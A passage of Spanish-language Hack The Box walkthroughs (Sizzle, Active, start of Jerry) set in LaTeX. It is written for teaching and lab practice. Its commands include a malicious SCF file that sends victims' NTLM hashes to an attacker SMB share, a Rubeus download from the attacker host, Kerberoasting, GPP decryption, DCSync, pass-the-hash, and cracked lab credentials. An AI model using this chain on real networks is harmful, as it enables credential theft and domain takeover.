Algo interesante con smb es que los derechos que vemos desde la montura no son los derechos reales del recurso compartido. Podemos usar de \textbf{smbcacls} para
controlar los derechos reales del directorio compartido.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbcacls} \StringTok{"//10.10.10.103/Department Shares"}\NormalTok{ Users/amanda -N}
\end{Highlighting}
\end{Shaded}

Aqui vemos el derecho real de este directorio:

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Sizzle-smbcacls-real-rights} \caption{smbcacls rights}\label{fig:unnamed-chunk-86}
\end{figure}

Como tenemos una montura podemos crear un script que nos permite enumerar los directorios para saber si hay un directorio con derechos de escritura.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/smb/Users}
\FunctionTok{ls}\NormalTok{ -l }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \KeywordTok{|} \KeywordTok{while} \BuiltInTok{read} \VariableTok{directory}\NormalTok{; }\KeywordTok{do} \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] Directory }\VariableTok{$directory}\StringTok{; smbcacls "}\NormalTok{//10.10.10.10/Department Shares}\StringTok{" Users/}\VariableTok{$directory}\StringTok{ -N | grep -i everyone ; done}
\end{Highlighting}
\end{Shaded}

Vemos que se puede escribir en el directorio Public. Creamos un fichero malicioso en este directorio.

\hypertarget{scf-fichero-malicioso-para-smb}{%
\subsection*{SCF fichero malicioso para smb}\label{scf-fichero-malicioso-para-smb}}
\addcontentsline{toc}{subsection}{SCF fichero malicioso para smb}

Buscando por internet con las palabras \texttt{smb\ malicious\ file}, encontramos una possiblidad de injectar un fichero malicioso de typo SCF. Esta vulnerabilidad
consiste injectar una peticion a la maquina de atacante a partir del momento que alguien vea el icono del fichero creado.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un recurso compartido a nivel de red

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  Creamos el ficher scf malicioso en el directorio \textbf{Public}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/smb/Users/Public}
\FunctionTok{nano}\NormalTok{ file.scf}

\NormalTok{[}\ExtensionTok{Shell}\NormalTok{]}
\VariableTok{Command=}\NormalTok{2}
\VariableTok{IconFile=}\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{10.10.16.3\textbackslash{}}\ExtensionTok{smbFolder}\NormalTok{\textbackslash{}pentestlab.ico}
\NormalTok{[}\ExtensionTok{Taskbar}\NormalTok{]}
\VariableTok{Command=}\NormalTok{ToggleDesktop}
\end{Highlighting}
\end{Shaded}
\item
  Esperamos un momentito
\end{enumerate}

Ya vemos que una conexion se a establecida y vemos un hash NTLM de version 2 para el usuario amanda.

\hypertarget{crackeamos-el-hash-con-john}{%
\subsection*{Crackeamos el hash con john}\label{crackeamos-el-hash-con-john}}
\addcontentsline{toc}{subsection}{Crackeamos el hash con john}

Copiamos el hash en un fichero y intentamos crackearlo con John

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt amanda_hash}
\end{Highlighting}
\end{Shaded}

ya tenemos una credencial para el usuario amanda.

Checkeamos la validez de esta credencial con \textbf{crackmapexec}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.103 -u }\StringTok{'amanda'}\NormalTok{ -p }\StringTok{'Ashare1972'}
\end{Highlighting}
\end{Shaded}

Vemos que es valida pero no nos podemos conectar porque ne esta el famoso \textbf{Pwn3d}

\hypertarget{enumeracion-de-usuarios-con-rpcclient-1}{%
\subsection*{Enumeracion de usuarios con rpcclient}\label{enumeracion-de-usuarios-con-rpcclient-1}}
\addcontentsline{toc}{subsection}{Enumeracion de usuarios con rpcclient}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.10 -c }\StringTok{'enumdomusers'}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.10 -c }\StringTok{'enumdomgroups'}
\CommentTok{# get the rid of domain admins -> 0x200 in this example}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.10 -c }\StringTok{'querygroupmem 0x200'}
\CommentTok{# get the rid of the users -> 0x1f4 for example}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.10 -c }\StringTok{'queryuser 0x1f4'}
\end{Highlighting}
\end{Shaded}

Nos creamos una lista de usuario desde rpcclient

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} 
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} 
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0x"}\NormalTok{ -v }
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0x"}\NormalTok{ -v }\KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"amanda%Ashare1972"}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0x"}\NormalTok{ -v }\KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'} \OperatorTok{>}\NormalTok{ users.txt}
\end{Highlighting}
\end{Shaded}

Como tenemos un listado de usuarios, lanzamos un ataque ASPRoasting para ver si encontramos el TGT de otro usuario.

\hypertarget{asproasting-attack-3}{%
\subsection*{Asproasting attack}\label{asproasting-attack-3}}
\addcontentsline{toc}{subsection}{Asproasting attack}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetNPUsers.py}\NormalTok{ htb.local/amanda:Ashare1972 -no-pass -usersfile users}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el ataque no aranca y es normal. Si miramos el contenido del fichero targeted de \textbf{nmap} vemos que el puerto 88 de Kerberos no
esta abierto y esto no nos permite ejecutar un ASPRoasting o un Kerberosting attack.

\hypertarget{ldap-domain-dump}{%
\subsection*{LDAP domain dump}\label{ldap-domain-dump}}
\addcontentsline{toc}{subsection}{LDAP domain dump}

Intentamos recuperar informaciones desde el ldap.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/html}
\ExtensionTok{ldapdomaindump}\NormalTok{ -u }\StringTok{"htb.local\textbackslash{}amanda"}\NormalTok{ -p Ashare1972 10.10.10.103 }
\end{Highlighting}
\end{Shaded}

Hemos podido dumpear las informaciones del ldap en ficheros web.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{service}\NormalTok{ apache2 start}
\end{Highlighting}
\end{Shaded}

y analizamos las informaciones desde firefox en la url \texttt{http://localhost}.

Las informaciones interesantes aqui son el echo que el usuario mrlky es kerberoasteable, y que el usuario amanda puede conectarse por WinRM.

Continuamos la enumeracion ldap con \textbf{bloodhound-python}

\hypertarget{bloodhound-desde-la-maquina-de-atacante}{%
\subsection*{Bloodhound desde la maquina de atacante}\label{bloodhound-desde-la-maquina-de-atacante}}
\addcontentsline{toc}{subsection}{Bloodhound desde la maquina de atacante}

\textbf{Bloodhound-python} permite recuperar la informacion del ldap desde la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{pip}\NormalTok{ install bloodhound}
\ExtensionTok{bloodhound-python}\NormalTok{ -d htb.local -u amanda -p Ashare1972 -gc sizzle.htb.local -c all -ns 10.10.10.103}
\end{Highlighting}
\end{Shaded}

Ahora que tenemos los ficheros \texttt{.json} creamos un zip para entrarlo en el bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la *.json}
\FunctionTok{zip}\NormalTok{ htblocal.zip *.json}
\end{Highlighting}
\end{Shaded}

Ya lo podemos analizar desde bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ apt install neo4j bloodhound}
\FunctionTok{sudo}\NormalTok{ neo4j console}
\end{Highlighting}
\end{Shaded}

A partir de aqui, lanzamos desde una nueva terminal el bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{bloodhound}\NormalTok{ --no-sandbox }\OperatorTok{&>}\NormalTok{ /dev/null }\KeywordTok{&}
\BuiltInTok{disown}
\end{Highlighting}
\end{Shaded}

Aqui ya nos podemos connectar a la base de datos neo4j y podemos \emph{drag \& drop} el zip y desde el menu Analysis miramos.

\begin{itemize}
\tightlist
\item
  Find all Domains Admins -\textgreater{} Miramos los administradores del dominio
\item
  Find Shortest Paths to Domain Admins -\textgreater{} Via mas rapida de convertirnos en Administrador
\item
  List all Kerberoastable Accounts -\textgreater{} Usuarios kerberoasteables (need of credentials)
\item
  Find Principals with DCSync Right -\textgreater{} Atacantes pueden lanzar un secretsdump attack para recojer todos los hashes de usuarios cuando tiene el privilegio GetChangesAll.
\end{itemize}

Aqui vemos que los usuarios MRKLY y KRBTGT son kerberoasteable, tambien vemos que el usuario MRKLY tiene privilegios DSYNC con el GetChangesAll.
Aqui ya podemos ver por dondo van los tiros y que tendremos a un momento dado convertirnos en el usuario \textbf{MRKLY}. Pero para esto necesitamos primero
conectarnos a la maquina victima, y como podemos conectar con winrm con el usuario amanda intentamos connectarnos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.103 -u }\StringTok{'amanda'}\NormalTok{ -p }\StringTok{'Ashare1972'}
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.103 -u }\StringTok{'amanda'}\NormalTok{ -p }\StringTok{'Ashare1972'}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no tiene el Pwn3d! y que no podemos connectarnos. Como sabemos que este usuario se puede conectar miramos otra vez el fichero targeted y vemos que existe el
puerto \textbf{5986} que es un \textbf{winrm con SSL} pero para esto necessitamos un certificado SSL. esto se suele encontrar en un directorio de la web.

Fuzzeamos la web.

\hypertarget{fuzzeando-la-web-con-wfuzz}{%
\subsection*{Fuzzeando la web con WFUZZ}\label{fuzzeando-la-web-con-wfuzz}}
\addcontentsline{toc}{subsection}{Fuzzeando la web con WFUZZ}

Como sabemos que el servicio web es un IIS, utilizamos un diccionario de SecList

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /usr/share/seclists}
\FunctionTok{find}\NormalTok{ \textbackslash{}-name }\DataTypeTok{\textbackslash{}*}\NormalTok{IIS}\DataTypeTok{\textbackslash{}*}

\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/web-Content/IIS.fuzz.txt http://10.10.10.103/FUZZ}
\end{Highlighting}
\end{Shaded}

Aqui vemos un directorio \texttt{/certsrv}. Si entramos con firefox, hay un panel de inicio de session y si le ponemos las credenciales de amanda, podemos entrar.

Vemos un \textbf{Microsoft Active Directory Certificate Services}. Es un servicio que nos permite crear certificados para un usuario.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la web le damos a \texttt{Request\ Certificate\ -\textgreater{}\ advanced\ certificate\ request}, vemos que tenemos que enviar un certificado base64-encoded CMC o PKCS
\item
  Creamos un certificado (Private Key) en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr}
\FunctionTok{cat}\NormalTok{ amanda.csr }\KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'\textbackslash{}n'} \KeywordTok{|} \ExtensionTok{xclip}\NormalTok{ -sel clip}
\end{Highlighting}
\end{Shaded}
\item
  Colamos el contenido en la web y podemos descargar el DER encode certificate.
\end{enumerate}

\hypertarget{vuln-exploit-gaining-access-40}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-40}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-win-rm-ssl}{%
\subsection*{Ganando accesso con Win-RM SSL}\label{ganando-accesso-con-win-rm-ssl}}
\addcontentsline{toc}{subsection}{Ganando accesso con Win-RM SSL}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mv}\NormalTok{ /home/s4vitar/Downloads/certnew.cer .}
\ExtensionTok{evil-winrm}\NormalTok{ -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u }\StringTok{'amanda'}\NormalTok{ -p }\StringTok{'Ashare1972'}
\end{Highlighting}
\end{Shaded}

ya estamos a dentro de la maquina pero no podemos ver la flag. Como previsto aqui vamos a tener que convertirnos al usuar \textbf{MRKLY}.

\hypertarget{kerberoasting-attack-con-rubeus}{%
\subsection*{Kerberoasting attack con Rubeus}\label{kerberoasting-attack-con-rubeus}}
\addcontentsline{toc}{subsection}{Kerberoasting attack con Rubeus}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descargamos el rubeus.exe

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Lo descargamos desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\NormalTok{mkdir BH}
\FunctionTok{cd}\NormalTok{ BH}
\FunctionTok{iwr}\NormalTok{ -uri http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{16}\NormalTok{.}\FunctionTok{3}\NormalTok{/Rubeus.}\FunctionTok{exe}\NormalTok{ -Outfile Rubeus.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el binario

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}BH\textbackslash{}Rubeus.}\FunctionTok{exe}\NormalTok{ kerberoast /creduser:htb.}\FunctionTok{local}\NormalTok{\textbackslash{}amanda /credpassword:Ashare1972}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya podemos ver el hash NTLM de version 2 del usuario \textbf{MRKLY}

\hypertarget{crackeando-el-hash-con-john-3}{%
\subsection*{Crackeando el hash con John}\label{crackeando-el-hash-con-john-3}}
\addcontentsline{toc}{subsection}{Crackeando el hash con John}

Copiamos el hash en un fichero y le lanzamos John

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt mrkly_hash}
\end{Highlighting}
\end{Shaded}

Aqui ya tenemos la contraseña del usuario. Aqui no vamos a poder connectarnos a la maquina victima con este usuario porque
tenemos que crear un nuevo certificado.

Entramos con firefox a la routa \texttt{/certsrv} con las credenciales del usuario MRKLY.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la web le damos a \texttt{Request\ Certificate\ -\textgreater{}\ advanced\ certificate\ request}
\item
  Creamos un certificado (Private Key) en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ req -newkey rsa:2048 -nodes -keyout mrkly.key -out mrkly.csr}
\FunctionTok{cat}\NormalTok{ mrkly.csr }\KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'\textbackslash{}n'} \KeywordTok{|} \ExtensionTok{xclip}\NormalTok{ -sel clip}
\end{Highlighting}
\end{Shaded}
\item
  Colamos el contenido en la web y podemos descargar el DER encode certificate.
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
    \FunctionTok{mv}\NormalTok{ /home/s4vitar/Downloads/certnew.cer .}
    \ExtensionTok{evil-winrm}\NormalTok{ -S -c certnew.cer -k mrkly.key -i 10.10.10.103 -u }\StringTok{'mrkly'}\NormalTok{ -p }\StringTok{'Football#7'}
\end{Highlighting}
\end{Shaded}

Ya podemos leer la Flag.

\hypertarget{privilege-escalation-37}{%
\section*{Privilege Escalation}\label{privilege-escalation-37}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-46}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-46}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

Como hemos echo una buena enumeracion del systema, sabemos que el usuario \textbf{MRKLY} puede hacer un ataque DCSync para recuperar los
hashes de los usuarios del systema.

Aqui la escala de privilegio es facil y se hace desde la maquina de atacante con \textbf{SecretsDump}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-secretsdump}\NormalTok{ htb.local/mrlky:Football#7@10.10.10.103}
\end{Highlighting}
\end{Shaded}

Aqui ya vemos hashes que podemos uzar para hacer \textbf{PASS THE HASH}. Copiamos el hash del usuario Administrator y lanzamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-wmiexec}\NormalTok{ htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{htb}\NormalTok{\textbackslash{}administrator}
\end{Highlighting}
\end{Shaded}

Ya podemos leer el \textbf{root.txt}

\hypertarget{active}{%
\chapter*{Active}\label{active}}
\addcontentsline{toc}{chapter}{Active}

\hypertarget{introduccion-54}{%
\section*{Introduccion}\label{introduccion-54}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Active.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=kTyYkrK970w}{\includegraphics{https://img.youtube.com/vi/kTyYkrK970w/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-54}{%
\section*{Enumeracion}\label{enumeracion-54}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-54}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-54}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-54}{%
\subsubsection*{Ping}\label{ping-54}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.100}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-54}{%
\subsubsection*{Nmap}\label{nmap-54}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.100}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,88,135,139,289,445,464,593,636,3269,5985,9389,49667,49673,49674,49677,49689,49698 10.10.10.100 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain controller rpcclient null session &\tabularnewline
88 & Kerberos & asproasting attack & lista de usuarios validos\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound & credenciales\tabularnewline
445 & smb & Null session &\tabularnewline
464 & kpasswd5? & &\tabularnewline
593 & ncacn\_http & &\tabularnewline
636 & tcpwrapped & &\tabularnewline
3268 & ldap & &\tabularnewline
3269 & tcpwrapped & &\tabularnewline
5722 & WinRM & evil-winrm & credenciales\tabularnewline
9389 & mc-nmf & Puertos por defecto de windows &\tabularnewline
47001 & msrpc & Puertos por defecto de windows &\tabularnewline
49152 & msrpc & Puertos por defecto de windows &\tabularnewline
49153 & msrpc & Puertos por defecto de windows &\tabularnewline
49154 & msrpc & Puertos por defecto de windows &\tabularnewline
49155 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
49157 & msrpc & Puertos por defecto de windows &\tabularnewline
49158 & msrpc & Puertos por defecto de windows &\tabularnewline
49169 & msrpc & Puertos por defecto de windows &\tabularnewline
49171 & msrpc & Puertos por defecto de windows &\tabularnewline
49182 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-11}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-11}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.100}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.100 -N}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

Vemos que estamos frente de una maquina Windows 6.1 x64 que se llama \textbf{DC} en el dominio \textbf{active.htb} con un certificado firmado.
Añadimos el dominio al \texttt{/etc/hosts}.
Tambien vemos que podemos ver los recursos compartidos a nivel de red con un null session y que el recurso \textbf{Replication} esta en \textbf{READ ONLY}.
Listamos el directorio con \textbf{smbmap}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication/active.htb}
\end{Highlighting}
\end{Shaded}

Aqui vemos

\begin{itemize}
\tightlist
\item
  DfsrPrivate
\item
  Policies
\item
  scripts
\end{itemize}

Esto nos hace pensar a una replica de \textbf{SYSVOL}. Aqui buscamos si esta el \texttt{groups.xml}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication/active.htb/Policies}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication/active.htb/Policies/}\DataTypeTok{\{31B2F340-016D-11D2-945F-00C04F894F9\}}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication/active.htb/Policies/}\DataTypeTok{\{31B2F340-016D-11D2-945F-00C04F894F9\}}\NormalTok{/MACHINE}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication/active.htb/Policies/}\DataTypeTok{\{31B2F340-016D-11D2-945F-00C04F894F9\}}\NormalTok{/MACHINE/Preferences}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -r Replication/active.htb/Policies/}\DataTypeTok{\{31B2F340-016D-11D2-945F-00C04F894F9\}}\NormalTok{/MACHINE/Preferences/Groups/*}
\end{Highlighting}
\end{Shaded}

\hypertarget{vulnerability-assessment-41}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-41}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{groups.xml}{%
\subsection*{Groups.xml}\label{groups.xml}}
\addcontentsline{toc}{subsection}{Groups.xml}

Hemos encontrado el fichero \texttt{groups.xml}, lo descargamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 --download Replication/active.htb/Policies/}\DataTypeTok{\{31B2F340-016D-11D2-945F-00C04F894F9\}}\NormalTok{/MACHINE/Preferences/Groups/Groups.xml}

\FunctionTok{mv}\NormalTok{ Replication/active.htb/Policies/}\DataTypeTok{\{31B2F340-016D-11D2-945F-00C04F894F9\}}\NormalTok{/MACHINE/Preferences/Groups/Groups.xml Groups.xml}
\FunctionTok{cat}\NormalTok{ Groups.xml}
\end{Highlighting}
\end{Shaded}

Aqui vemos el usuario y la contraseña encryptada.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gpp-decrypt} \StringTok{"edBSHOwhZLTjt/Q59FeIcJ83mjWA98gw9gukOhjOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"}
\end{Highlighting}
\end{Shaded}

Ya tenemos la contraseña. Verificamos si las credenciales son validas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.100 -u }\StringTok{'SVC_TGS'}\NormalTok{ -p }\StringTok{'GPPstillStandingStrong2k18'}
\end{Highlighting}
\end{Shaded}

Es valida pero no tenemos el Pwn3d. Miramos si este usuario tiene acceso a mas registros compartidos a nivel de red.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -u }\StringTok{'SVC_TGS'}\NormalTok{ -p }\StringTok{'GPPstillStandingStrong2k18'}
\end{Highlighting}
\end{Shaded}

Hay unos cuantos mas. Miramos lo que hay en el registro Users

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.100 -u }\StringTok{'SVC_TGS'}\NormalTok{ -p }\StringTok{'GPPstillStandingStrong2k18'}\NormalTok{ -r Users}
\end{Highlighting}
\end{Shaded}

Como solo vemos nuestro usuario y el administrator, y quel puerto 88 esta abierto, intentamos un Kerberoasting attack.

\hypertarget{kerberoasting-attack}{%
\subsection*{Kerberoasting attack}\label{kerberoasting-attack}}
\addcontentsline{toc}{subsection}{Kerberoasting attack}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetUserSPNs.py}\NormalTok{ active.htb/SVC_TGS:GPPstillStandingStrong2k18}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver que el usuario Administrator es kerberoasteable.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetUserSPNs.py}\NormalTok{ active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request}
\end{Highlighting}
\end{Shaded}

Copiamos el hash y intentamos romperlo con John

\hypertarget{crack-hash-with-john}{%
\subsection*{Crack hash with John}\label{crack-hash-with-john}}
\addcontentsline{toc}{subsection}{Crack hash with John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Ya tenemos la contraseña del usuario Administrator. Lo verificamos con crackmapexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.100 -u }\StringTok{'Administrator'}\NormalTok{ -p }\StringTok{'Ticketmaster1968'}
\end{Highlighting}
\end{Shaded}

Ademas de ser valido, vemos el famoso \textbf{(Pwn3d!)}

\hypertarget{vuln-exploit-gaining-access-41}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-41}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conexion-con-psexec}{%
\subsection*{Conexion con psexec}\label{conexion-con-psexec}}
\addcontentsline{toc}{subsection}{Conexion con psexec}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{psexec.py}\NormalTok{ active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{nt}\NormalTok{ authority\textbackslash{}system}
\end{Highlighting}
\end{Shaded}

Aqui podemos leer las 2 flags.

\hypertarget{jerry}{%
\chapter*{Jerry}\label{jerry}}
\addcontentsline{toc}{chapter}{Jerry}

\hypertarget{introduccion-55}{%
\section*{Introduccion}\label{introduccion-55}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Jerry.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=GFED7XNYmXI}{\includegraphics{https://img.youtube.com/vi/GFED7XNYmXI/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-55}{%
\section*{Enumeracion}\label{enumeracion-55}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-55}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-55}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-55}{%
\subsubsection*{Ping}\label{ping-55}}
